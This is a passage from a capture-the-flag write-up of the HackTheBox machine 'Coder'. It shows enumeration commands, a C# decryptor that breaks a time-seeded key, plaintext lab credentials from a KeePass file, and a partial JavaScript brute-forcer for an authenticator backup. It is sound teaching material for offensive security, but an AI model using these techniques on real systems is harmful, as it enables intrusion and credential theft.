# HTB: Coder

[ctf](/tags#ctf ) [htb-coder](/tags#htb-coder ) [hackthebox](/tags#hackthebox
) [nmap](/tags#nmap ) [windows](/tags#windows ) [smb](/tags#smb )
[netexec](/tags#netexec ) [smbclient](/tags#smbclient ) [adcs](/tags#adcs )
[teamcity](/tags#teamcity ) [reverse-engineering](/tags#reverse-engineering )
[dotnet](/tags#dotnet ) [dotpeek](/tags#dotpeek ) [youtube](/tags#youtube )
[visual-studio](/tags#visual-studio ) [keepass](/tags#keepass )
[kpcli](/tags#kpcli ) [authenticate](/tags#authenticate ) [2fa](/tags#2fa )
[totp](/tags#totp ) [source-code](/tags#source-code )
[javascript](/tags#javascript ) [cicd](/tags#cicd ) [git-diff](/tags#git-diff
) [evil-winrm](/tags#evil-winrm ) [bloodhound](/tags#bloodhound ) [bloodhound-
python](/tags#bloodhound-python ) [CVE-2022-26923](/tags#cve-2022-26923 )
[secretsdump](/tags#secretsdump )  
  
Dec 16, 2023

HTB: Coder

Coder starts with an SMB server that has a DotNet executable used to encrypt
things, and an encrypted file. I’ll reverse engineer the executable and find a
flaw that allows me to decrypt the file, providing a KeePass DB and file. I’ll
use the file as a key to get in, and find the domain, creds, and a 2FA backup
to a TeamCity server. I’ll reverse the Chrome plugin to understand how the
backup works, and brute force the password to recover the TOTP seed. With that
and the creds, I can log into the server and upload a diff that gets executed
as part of a CI/CD pipeline. I’ll find Windows encrypted creds for the next
user in a diff files stored with the TeamCity files. For root, I’ll abuse
CVE-2022-26923 by registering a fake computer with a malicious DNS hostname to
trick ADCS into thinking it’s the DC. From there, I can dump the hashes for
the domain and get a shell as administrator.

## Box Info

Name | [Coder](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fcoder)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fcoder)  
---|---  
Release Date | [01 Apr 2023](https://twitter.com/hackthebox_eu/status/1641417515401199616)  
Retire Date | 16 Dec 2023  
OS | Windows   
Base Points | Insane [50]  
Rated Difficulty |   
Radar Graph |   
 | 03:31:55[ snowscan](https://app.hackthebox.com/users/9267)  
  
 | 05:40:45[ snowscan](https://app.hackthebox.com/users/9267)  
  
Creator | [ ctrlzero](https://app.hackthebox.com/users/168546)  
  
  
## Recon

### nmap

`nmap` finds a ton of open TCP ports:

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.207
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-17 15:33 EST
    Nmap scan report for 10.10.11.207   
    Host is up (0.091s latency).            
    Not shown: 65508 closed ports   
    PORT      STATE SERVICE
    53/tcp    open  domain                 
    80/tcp    open  http                   
    88/tcp    open  kerberos-sec                                  
    135/tcp   open  msrpc   
    139/tcp   open  netbios-ssn   
    389/tcp   open  ldap     
    443/tcp   open  https                                           
    445/tcp   open  microsoft-ds
    464/tcp   open  kpasswd5                      
    593/tcp   open  http-rpc-epmap
    636/tcp   open  ldapssl                
    5357/tcp  open  wsdapi                 
    5985/tcp  open  wsman                                         
    9389/tcp  open  adws
    47001/tcp open  winrm                      
    49664/tcp open  unknown          
    49665/tcp open  unknown
    49666/tcp open  unknown                    
    49667/tcp open  unknown
    49673/tcp open  unknown                          
    49687/tcp open  unknown
    49689/tcp open  unknown                    
    49691/tcp open  unknown                                             
    49700/tcp open  unknown                                    
    49712/tcp open  unknown
    49719/tcp open  unknown                                        
    51761/tcp open  unknown                           
    
    Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds 
    oxdf@hacky$ nmap -p 53,80,88,135,139,389,443,445,464,593,636,5357,5985,9389,47001,49664-49667,49673,49687,49689,49691,49700,49712,49719,51761 -sCV 10.10.11.207
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-17 15:58 EST
    Nmap scan report for 10.10.11.207
    Host is up (0.091s latency).
    
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain?
    | fingerprint-strings: 
    |   DNSVersionBindReqTCP: 
    |     version
    |_    bind
    80/tcp    open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-17 20:58:37Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=dc01.coder.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.coder.htb
    | Not valid before: 2023-09-13T11:54:39
    |_Not valid after:  2024-09-12T11:54:39
    |_ssl-date: 2023-11-17T21:01:10+00:00; -10s from scanner time.
    443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    | ssl-cert: Subject: commonName=default-ssl/organizationName=HTB/stateOrProvinceName=CA/countryName=US
    | Not valid before: 2022-11-04T17:25:43
    |_Not valid after:  2032-11-01T17:25:43
    |_ssl-date: 2023-11-17T21:01:10+00:00; -10s from scanner time.
    | tls-alpn: 
    |_  http/1.1
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=dc01.coder.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.coder.htb
    | Not valid before: 2023-09-13T11:54:39
    |_Not valid after:  2024-09-12T11:54:39
    |_ssl-date: 2023-11-17T21:01:10+00:00; -10s from scanner time.
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Service Unavailable
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49673/tcp open  msrpc         Microsoft Windows RPC
    49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49689/tcp open  msrpc         Microsoft Windows RPC
    49691/tcp open  msrpc         Microsoft Windows RPC
    49700/tcp open  msrpc         Microsoft Windows RPC
    49712/tcp open  msrpc         Microsoft Windows RPC
    49719/tcp open  msrpc         Microsoft Windows RPC
    51761/tcp open  msrpc         Microsoft Windows RPC
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port53-TCP:V=7.80%I=7%D=11/17%Time=6557D40C%P=x86_64-pc-linux-gnu%r(DNS
    SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
    SF:\x04bind\0\0\x10\0\x03");
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: -10s, deviation: 0s, median: -10s
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2023-11-17T21:00:59
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 161.24 seconds
    

Based on this combination of ports, this seems like a Windows domain
controller.

Triaging the ports, I’ll group them as follows:

  * First Tier Enumeration 
    * SMB (445)
    * DNS (53)
    * HTTP (80) / HTTPS (443)
  * Second Tier Enumeration 
    * Kerberos (88)
    * LDAP (389, others)
    * RPC (135)
  * If I find creds 
    * WinRM (5985)

### SMB - TCP 445

#### Enumerate

`netexec` (modern `crackmapexec`) shows a domain name of `coder.htb` and a
hostname of DC01:

    
    
    oxdf@hacky$ netexec smb 10.10.11.207
    SMB         10.10.11.207    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
    

Trying the `--shares` flag gets denied:

    
    
    oxdf@hacky$ netexec smb 10.10.11.207 --shares
    SMB         10.10.11.207    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.207    445    DC01             [-] Error getting user: list index out of range
    SMB         10.10.11.207    445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
    

But trying with a dummy user works:

    
    
    oxdf@hacky$ netexec smb 10.10.11.207 --shares -u 0xdf -p ''
    SMB         10.10.11.207    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.207    445    DC01             [+] coder.htb\0xdf: 
    SMB         10.10.11.207    445    DC01             [*] Enumerated shares
    SMB         10.10.11.207    445    DC01             Share           Permissions     Remark
    SMB         10.10.11.207    445    DC01             -----           -----------     ------
    SMB         10.10.11.207    445    DC01             ADMIN$                          Remote Admin
    SMB         10.10.11.207    445    DC01             C$                              Default share
    SMB         10.10.11.207    445    DC01             Development     READ            
    SMB         10.10.11.207    445    DC01             IPC$            READ            Remote IPC
    SMB         10.10.11.207    445    DC01             NETLOGON                        Logon server share 
    SMB         10.10.11.207    445    DC01             SYSVOL                          Logon server share 
    SMB         10.10.11.207    445    DC01             Users           READ          
    

I have read access to the `Development` and `Users` shares.

#### Development

This share has two folders:

    
    
    oxdf@hacky$ smbclient -N //10.10.11.207/Development
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Thu Nov  3 11:16:25 2022
      ..                                  D        0  Thu Nov  3 11:16:25 2022
      Migrations                          D        0  Tue Nov  8 17:11:25 2022
      Temporary Projects                  D        0  Fri Nov 11 17:19:03 2022
    
                    6232831 blocks of size 4096. 982572 blocks available
    

`Migrations` has a few folders with what looks like publicly available stuff:

    
    
    smb: \Migrations\> ls
      .                                   D        0  Tue Nov  8 17:11:25 2022
      ..                                  D        0  Tue Nov  8 17:11:25 2022
      adcs_reporting                      D        0  Tue Nov  8 17:11:25 2022
      bootstrap-template-master           D        0  Thu Nov  3 12:12:30 2022
      Cachet-2.4                          D        0  Thu Nov  3 12:12:36 2022
      kimchi-master                       D        0  Thu Nov  3 12:12:41 2022
      teamcity_test_repo                  D        0  Fri Nov  4 15:14:54 2022
    
                    6232831 blocks of size 4096. 982572 blocks available
    

  * `adcs_reporting` has a copy of [this PowerShell script](https://github.com/wikijm/PowerShell-AdminScripts/blob/master/ActiveDirectoryCertificateServices/Get-ADCS_Report.ps1).
  * `bootstrap-template-master` has a copy of [this repo](https://github.com/pro-dev-ph/bootstrap-responsive-web-application-template).
  * `Cachet-2.4` has [this repo](https://github.com/cachethq/cachet/tree/2.4).
  * `kimchi-master` has something like [this](https://github.com/kimchi-project/kimchi).

Each of these might be in use or a hint at what’s to come.

The exception is `teamcity_test_repo`, which has a single PowerShell script
and a Git repo:

    
    
    smb: \Migrations\> dir teamcity_test_repo\
      .                                   D        0  Fri Nov  4 15:14:54 2022
      ..                                  D        0  Fri Nov  4 15:14:54 2022
      .git                               DH        0  Fri Nov  4 15:14:54 2022
      hello_world.ps1                     A       67  Fri Nov  4 15:12:08 2022
    
                    6232831 blocks of size 4096. 982540 blocks available
    

I’ll grab a copy of that. It’s literally just a PowerShell “Hello, World!”
script, but the comment at the top is interesting:

    
    
    #Simple repo test for Teamcity pipeline
    write-host "Hello, World!"
    

I’ve seen a couple references to Teamcity already.

`Temporary Projects` has two files:

    
    
    smb: \Temporary Projects\> dir
      .                                   D        0  Fri Nov 11 17:19:03 2022
      ..                                  D        0  Fri Nov 11 17:19:03 2022
      Encrypter.exe                       A     5632  Fri Nov  4 12:51:59 2022
      s.blade.enc                         A     3808  Fri Nov 11 17:17:08 2022
    
                    6232831 blocks of size 4096. 982543 blocks available
    

I’ll download both of these.

#### Users

This share has access to the home directories of the Public and Default users:

    
    
    oxdf@hacky$ smbclient -N //10.10.11.207/Users                            
    Try "help" to get a list of possible commands.                                                           
    smb: \> dir                                                                                              
      .                                  DR        0  Thu Nov  3 16:08:38 2022
      ..                                 DR        0  Thu Nov  3 16:08:38 2022
      Default                           DHR        0  Wed Jun 29 00:11:21 2022
      desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
      Public                             DR        0  Tue Jun 28 23:14:56 2022    
                                                        
                    6232831 blocks of size 4096. 982619 blocks available
    

There’s nothing of interest here.

### DNS - TCP/UDP 53

I’ve got the domain `coder.htb` already. I can try a zone transfer, but it
fails:

    
    
    oxdf@hacky$ dig axfr coder.htb @10.10.11.207
    
    ; <<>> DiG 9.18.12-0ubuntu0.22.04.2-Ubuntu <<>> axfr coder.htb @10.10.11.207
    ;; global options: +cmd
    ; Transfer failed.
    

Trying reverse lookups just fails. I’ll try `dnsenum` to brute force
subdomains slowly in the background (and confirm the manual checks), but it
doesn’t find anything unusual (all domains have these subdomains):

    
    
    oxdf@hacky$ dnsenum --dnsserver 10.10.11.207 -f /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt coder.htb
    dnsenum VERSION:1.2.6
    -----   coder.htb   -----
    
    Host's addresses:
    __________________
    coder.htb.                               600      IN    A        10.10.11.207
    
    Name Servers:
    ______________
    dc01.coder.htb.                          3600     IN    A        10.10.11.207
    
    Mail (MX) Servers:
    ___________________
    
    
    Trying Zone Transfers and getting Bind Versions:
    _________________________________________________
    unresolvable name: dc01.coder.htb at /usr/bin/dnsenum line 900.
    
    Trying Zone Transfer for coder.htb on dc01.coder.htb ... 
    AXFR record query failed: no nameservers
    
    Brute forcing with /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:
    _________________________________________________________________________________
    gc._msdcs.coder.htb.                     600      IN    A        10.10.11.207
    domaindnszones.coder.htb.                600      IN    A        10.10.11.207
    forestdnszones.coder.htb.                600      IN    A        10.10.11.207
    

### Subdomain Fuzz

I’ll fuzz subdomains on both 80 and 443 with `ffuf`, but neither finds
anything. I’ll add `coder.htb` and `dc01.coder.htb` to my `/etc/hosts` file.

### Website - TCP 80 / 443

#### Site

Visiting the site as either `coder.htb` or by IP just returns the IIS default
page:



#### Tech Stack

The HTTP response headers show just the IIS version, same as what `nmap`
identified:

    
    
    HTTP/2 200 OK
    Content-Type: text/html
    Last-Modified: Thu, 03 Nov 2022 20:15:56 GMT
    Accept-Ranges: bytes
    Etag: "bc6fac14c1efd81:0"
    Server: Microsoft-IIS/10.0
    Date: Fri, 17 Nov 2023 21:32:52 GMT
    Content-Length: 703
    

The 404 page looks like the default IIS 404:

#### Directory Brute Force

I’ll run `feroxbuster` against both HTTP and HTTPS, but it finds literally
nothing.

It seems like there’s a subdomain to find, and probably not through brute
force.

## Shell as svc_teamcity

### Encrypter.exe

#### Reverse Engineering

The file is a Windows 32-bit .NET executable:

    
    
    oxdf@hacky$ file Encrypter.exe 
    Encrypter.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
    

I’ll load it into [dotpeek](https://www.jetbrains.com/decompiler/) to take a
look at the code. There’s only a single namespace with a class `AES` with two
functions:

The `Main` function requires a filename as an arg:

    
    
      public static void Main(string[] args)
      {
        if (args.Length != 1)
        {
          Console.WriteLine("You must provide the name of a file to encrypt.");
        }
        else
        {
          FileInfo fileInfo = new FileInfo(args[0]);
          string destFile = Path.ChangeExtension(fileInfo.Name, ".enc");
          Random random = new Random(Convert.ToInt32(DateTimeOffset.Now.ToUnixTimeSeconds()));
          byte[] numArray1 = new byte[16];
          random.NextBytes(numArray1);
          byte[] numArray2 = new byte[32];
          random.NextBytes(numArray2);
          AES.EncryptFile(fileInfo.Name, destFile, numArray2, numArray1);
        }
      }
    

It generates a random IV and key, and calls `EncryptFile`, passing in the
filename plus `.enc`. `EncrtyptFile` encrypts the file with AES and writes it
to the `.enc` file:

    
    
      private static byte[] EncryptFile(string sourceFile, string destFile, byte[] Key, byte[] IV)
      {
        using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
        {
          using (FileStream fileStream1 = new FileStream(destFile, FileMode.Create))
          {
            using (ICryptoTransform encryptor = rijndaelManaged.CreateEncryptor(Key, IV))
            {
              using (CryptoStream cryptoStream = new CryptoStream((Stream) fileStream1, encryptor, CryptoStreamMode.Write))
              {
                using (FileStream fileStream2 = new FileStream(sourceFile, FileMode.Open))
                {
                  byte[] buffer = new byte[1024];
                  int count;
                  while ((count = fileStream2.Read(buffer, 0, buffer.Length)) != 0)
                    cryptoStream.Write(buffer, 0, count);
                }
              }
            }
          }
        }
        return (byte[]) null;
      }
    }
    

#### Get Encryption Time

While the key and IV are chosen at random, that random is seeded with the
current time. It is possible to get the last write metadata from the file over
the SMB share. It is not preserved when I get it with `smbclient` as I did
above. However, if I mount the share on my system, the metadata will be
preserved:

    
    
    oxdf@hacky$ sudo mount //coder.htb/Development /mnt
    Password for root@//coder.htb/Development: 
    oxdf@hacky$ ls /mnt/
     Migrations  'Temporary Projects'
    

Now the `stat` command will give exactly what I need:

    
    
    oxdf@hacky$ stat /mnt/Temporary\ Projects/s.blade.enc 
      File: /mnt/Temporary Projects/s.blade.enc
      Size: 3808            Blocks: 8          IO Block: 1048576 regular file
    Device: 4eh/78d Inode: 1125899907128474  Links: 1
    Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
    Access: 2022-11-11 17:17:08.374350100 -0500
    Modify: 2022-11-11 17:17:08.374350100 -0500
    Change: 2022-11-11 17:17:08.374350100 -0500
     Birth: 2022-11-07 16:05:02.949637700 -0500
    

#### Write Decryptor

The easiest way to decrypt this file is to start with the existing C# code and
modify it. I’ll walk through that in [this
video](https://www.youtube.com/watch?v=6PJNbdMoEq0):

The resulting code is:

    
    
    // Decompiled with JetBrains decompiler
    // Type: AES
    // Assembly: Encrypter, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
    // MVID: 8B183569-F3A3-401C-AF7F-F5C8FD67AA36
    // Assembly location: C:\Users\0xdf\Desktop\Encrypter.exe
    
    using System;
    using System.IO;
    using System.Security.Cryptography;
    
    internal class AES
    {
      public static void Main(string[] args)
      {
            string srcFile = "Z:\\hackthebox\\coder-10.10.11.207\\s.blade.enc";
            string destFile = "Z:\\hackthebox\\coder-10.10.11.207\\s.blade";
    
            DateTime modTime = new DateTime(2022, 11, 11, 17, 17, 08);
            int seed = (int)(new DateTimeOffset(modTime).ToUnixTimeSeconds());
            Random random = new Random(seed);
            byte[] numArray1 = new byte[16];
            random.NextBytes(numArray1);
            byte[] numArray2 = new byte[32];
            random.NextBytes(numArray2);
            AES.DecryptFile(srcFile, destFile, numArray2, numArray1);
      }
    
      private static byte[] DecryptFile(string sourceFile, string destFile, byte[] Key, byte[] IV)
      {
        using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
        {
          using (FileStream fileStream1 = new FileStream(destFile, FileMode.Create))
          {
            using (ICryptoTransform decryptor = rijndaelManaged.CreateDecryptor(Key, IV))
            {
              using (CryptoStream cryptoStream = new CryptoStream((Stream) fileStream1, decryptor, CryptoStreamMode.Write))
              {
                using (FileStream fileStream2 = new FileStream(sourceFile, FileMode.Open))
                {
                  byte[] buffer = new byte[1024];
                  int count;
                  while ((count = fileStream2.Read(buffer, 0, buffer.Length)) != 0)
                    cryptoStream.Write(buffer, 0, count);
                }
              }
            }
          }
        }
        return (byte[]) null;
      }
    }
    

### Access Teamcity Server

#### Recover Keepass

The resulting file is a 7-zip archive:

    
    
    oxdf@hacky$ file s.blade
    s.blade: 7-zip archive data, version 0.4
    oxdf@hacky$ xxd s.blade | head -3
    00000000: 377a bcaf 271c 0004 6bc9 18ff 950e 0000  7z..'...k.......
    00000010: 0000 0000 2200 0000 0000 0000 8c43 d400  ...."........C..
    00000020: 0103 ff92 6cd7 32ec 18c3 8c8a c9ff 544c  ....l.2.......TL
    

It has two files:

    
    
    oxdf@hacky$ mv s.blade s.blade.7z
    oxdf@hacky$ 7z l s.blade.7z 
    
    7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
    p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs AMD Ryzen 9 5900X 12-Core Processor             (A20F10),ASM,AES-NI)
    
    Scanning the drive for archives:
    1 file, 3799 bytes (4 KiB)
    
    Listing archive: s.blade.7z
    
    --
    Path = s.blade.7z
    Type = 7z
    Physical Size = 3799
    Headers Size = 177
    Method = LZMA2:12
    Solid = -
    Blocks = 2
    
       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2022-11-03 15:02:30 ..H.A         1024         1028  .key
    2022-11-11 17:13:55 ....A         2590         2594  s.blade.kdbx
    ------------------- ----- ------------ ------------  ------------------------
    2022-11-11 17:13:55               3614         3622  2 files
    

I’ll extract them (`7z x s.blade.7z`).

I like `kpcli` to interact with KeePass dbs. I’ll open it with the `.key`
file. Giving it a wrong password fails:

    
    
    oxdf@hacky$ kpcli --key .key --kdb s.blade.kdbx 
    Please provide the master password: *************************
    Couldn't load the file ./s.blade.kdbx: The database key appears invalid or else the database is corrupt.
    

But an empty password works (I didn’t know you could do that):

    
    
    oxdf@hacky$ kpcli --key .key --kdb ./s.blade.kdbx 
    Please provide the master password: *************************
    
    KeePass CLI (kpcli) v3.1 is ready for operation.
    Type 'help' for a description of available commands.
    Type 'help <command>' for details on individual commands.
    
    kpcli:/>
    

There are three entries:

    
    
    kpcli:/> ls
    === Groups ===
    Root/
    kpcli:/> cd Root/
    kpcli:/Root> ls
    === Entries ===
    0. Authenticator backup codes                                             
    1. O365                                                                   
    2. Teamcity                                         teamcity-dev.coder.htb
    
    kpcli:/Root> show -f 0
    Title: Authenticator backup codes
    Uname: 
     Pass: 
      URL: 
    Notes: {
             "6132e897-44a2-4d14-92d2-12954724e83f": {
               "encrypted": true,
               "hash": "6132e897-44a2-4d14-92d2-12954724e83f",
               "index": 1,
               "type": "totp",
               "secret": "U2FsdGVkX1+3JfFoKh56OgrH5jH0LLtc+34jzMBzE+QbqOBTXqKvyEEPKUyu13N2",
               "issuer": "TeamCity",
               "account": "s.blade"
             },
             "key": {
               "enc": "U2FsdGVkX19dvUpQDCRui5XaLDSbh9bP00/1iBSrKp7102OR2aRhHN0s4QHq/NmYwxadLeTN7Me1a3LrVJ+JkKd76lRCnd1utGp/Jv6w0hmcsqdhdccOpixnC3wAnqBp+5QyzPVaq24Z4L+Rx55HRUQVNLrkLgXpkULO20wYbQrJYN1D8nr3g/G0ukrmby+1",
               "hash": "$argon2id$v=19$m=16384,t=1,p=1$L/vKleu5gFis+GLZbROCPw$OzW14DA0kdgIjCbo6MPDYoh+NEHnNCNV"
             }
           }
    
    kpcli:/Root> show -f 1
    
    Title: O365
    Uname: s.blade@coder.htb
     Pass: AmcwNO60Zg3vca3o0HDrTC6D
      URL: 
    Notes: 
    
    kpcli:/Root> show -f 2
    
    Title: Teamcity
    Uname: s.blade
     Pass: veh5nUSZFFoqz9CrrhSeuwhA
      URL: https://teamcity-dev.coder.htb
    Notes: 
    

The first is Authenticator backup codes - I’ll come back to this.

The second looks like creds for s.blade on the box, but they don’t work over
WinRM (either they are bad or s.blade isn’t in the Remote Management Users
group).

The third one leaks a subdomain! I’ll add it to my `/etc/hosts` file. I’ll
also try both passwords to login over WinRM with s.blade, but neither work.

#### Identify 2FA

On 80 that subdomain still returns the default page. But on 443, it returns a
redirect to `/login.html`, TeamCity login:



Entering s.blade’s creds leads to a two factor prompt:



It seems clear here that I have the information necessary to get this code in
the “Authenticator backup codes” JSON, but it also says it’s encrypted.

#### Identify Application

There’s a Chrome and Firefox extension called
[Authenticator](https://authenticator.cc/). I’ll install it in Firefox, and it
looks like an application that provides 2FA time based codes:



I’ll click the pencil icon and then the plus to add a code, and pick “Manual
Entry”:



The secret needs to be 16 characters, and on clicking “Ok”, there’s a entry:



Clicking the gear icon, there’s a “Backup” option”:

That leads to:



The backup file doesn’t look like what I got from KeePass:

    
    
    otpauth://totp/0xdf:?secret=aaaaaaaaaaaaaaar&issuer=0xdf
    

Also on the menu there’s a “Security” option. Clicking that offers a chance to
set a password:



Once I do that, there’s another option on the “Backup” screen:

That looks just like the file from Coder!

    
    
    {
      "559f7a5a-71f4-40a4-a3cf-18ca8a279fbd": {
        "encrypted": true,
        "hash": "559f7a5a-71f4-40a4-a3cf-18ca8a279fbd",
        "index": 1,
        "type": "totp",
        "secret": "U2FsdGVkX1+cCVjKPUqbCz96xNdZcVbsxdOL5Kx6vd4dM2N5wbym1euKv4Vxywzm",
        "issuer": "0xdf"
      },
      "key": {
        "enc": "U2FsdGVkX1+jGJz6NtoEJX24IHYesis8U/hmRASxsIiwFh4Y/0YTFrqjMnBwqIKFnyEqT/BlzLjedKqvYFy9EzyaS9EiiwrG9Y1e8nOnlmZ4pZ9UweTHFBSmmuezJUjBdBdFnkPZmiWmrB0gZHwJ2LQaGuUIqN4HB1vDbEHtQf5sOlRrpnjZpL+LODyqZIQN",
        "hash": "$argon2id$v=19$m=16384,t=1,p=1$jIMfQPjxT+kfU6lwmAiM/g$wnTizkJnIwyf6Ru0qQKx6ijSz0uD+x0m"
      }
    }
    

#### Understand Decryption Process

The code for this plugin is [on GitHub](https://github.com/Authenticator-
Extension/Authenticator), and in the repo root there’s a file named
`webpack.config.js`. On [lines 5-17](https://github.com/Authenticator-
Extension/Authenticator/blob/dev/webpack.config.js#L5-L17), it defines the
imports:

    
    
    module.exports = {
      mode: "development",
      devtool: "source-map",
      entry: {
        argon: "./src/argon.ts",
        background: "./src/background.ts",
        content: "./src/content.ts",
        popup: "./src/popup.ts",
        import: "./src/import.ts",
        options: "./src/options.ts",
        qrdebug: "./src/qrdebug.ts",
        permissions: "./src/permissions.ts",
      },
    

`import` seems like the part I care about. In `src/import.ts`, on [lines
59-93](https://github.com/Authenticator-
Extension/Authenticator/blob/dev/src/import.ts#L59-L93) is the function
`decryptBackupData`. It takes `backupData` and a `passphrase`.

    
    
    export function decryptBackupData(
      backupData: { [hash: string]: OTPStorage },
      passphrase: string | null
    ) {
      const decryptedbackupData: { [hash: string]: OTPStorage } = {};
      for (const hash of Object.keys(backupData)) {
        if (typeof backupData[hash] !== "object") {
          continue;
        }
        if (!backupData[hash].secret) {
          continue;
        }
        if (backupData[hash].encrypted && !passphrase) {
          continue;
        }
        if (backupData[hash].encrypted && passphrase) {
          try {
            backupData[hash].secret = CryptoJS.AES.decrypt(
              backupData[hash].secret,
              passphrase
            ).toString(CryptoJS.enc.Utf8);
            backupData[hash].encrypted = false;
          } catch (error) {
            continue;
          }
        }
        // backupData[hash].secret may be empty after decrypt with wrong
        // passphrase
        if (!backupData[hash].secret) {
          continue;
        }
        decryptedbackupData[hash] = backupData[hash];
      }
      return decryptedbackupData;
    }
    

It loops over each object in `backupData`, and assuming all the parts are
there, it calls `CryptoJS.AES.decrypt` with the `secret` value from the
`backupData` and the given passphrase.

If I search GitHub in this repo for `decryptBackupData`, it is called in
`src/components/Import/TextImport.vue`. In fact, on [lines
76-80](https://github.com/Authenticator-
Extension/Authenticator/blob/c5976b63c5ff3b8c6a1e2ba5077071abf973aead/src/components/Import/TextImport.vue#L76-L80),
it’s called like this:

    
    
            if (key && passphrase) {
              decryptedbackupData = decryptBackupData(
                exportData,
                CryptoJS.AES.decrypt(key.enc, passphrase).toString()
              );
            } else {
    

It’s taking the `key.enc` and decrypting it with the password, and then that
becomes the key to decrypt the `secret` blob to get the key.

#### Brute Force Password

I’m going to brute force the password for this encrypted backup. I could
potentially try to crack that Argon2 hash, but that would be _really_ slow.
Alternatively, I can try to do two AES decryptions, and that won’t be slow at
all.

I’ll use JavaScript to write a program to brute force passwords looking for
the right one in [this video](https://www.youtube.com/watch?v=kuuOqZf8Bdw):

The resulting script is:

    
    
    const fs = require('fs')
    const readline = require('readline')
    const CryptoJS = require('crypto-js')
    
    // test data: password = password
    //const secret = "U2FsdGVkX1+rmY6PZvGfW5oa8bewUhnpu9gWZJLjFiagH4lpGUc9ms6c1Vaytvwl";
    //const enc = "U2FsdGVkX1+xgZ7OACZnnWmzDQQmsKm1Wr9MootfN4V1DskWJSgcULWPpx4qOZ9wpbwTYvhlhjO9zAxfVq8op3KxyRC/+r4kiZNzZ2t1K90QipDy4wGCKTquRu1am8MGEXQ9K8Y05TY6CdxXRwWWGJwGlKjoOpTCmYDa/Nx2VQJmjivLoA5uxe5ogo3UmC5w";
    
    // Coder data
    const secret = "U2FsdGVkX1+3JfFoKh56OgrH5jH0LLtc+34jzMBzE+QbqOBTXqKvyEEPKUyu13N2";
    const enc = "U2FsdGVkX19dvUpQDCRui5XaLDSbh9bP00/1iBSrKp7102OR2aRhHN0s4QHq/NmYwxadLeTN7Me1a3LrVJ+JkKd76lRCnd1utGp/Jv6w0hmcsqdhdccOpixnC3wAnqBp+5QyzPVaq24Z4L+Rx55HRUQVNLrkLgXpkULO20wYbQrJYN1D8nr3g/G0ukrmby+1";
    
    const rl = readline.createInterface({
        input: fs.createReadStream(process.argv[2])
    });
    
    rl.on('line', (line) => {
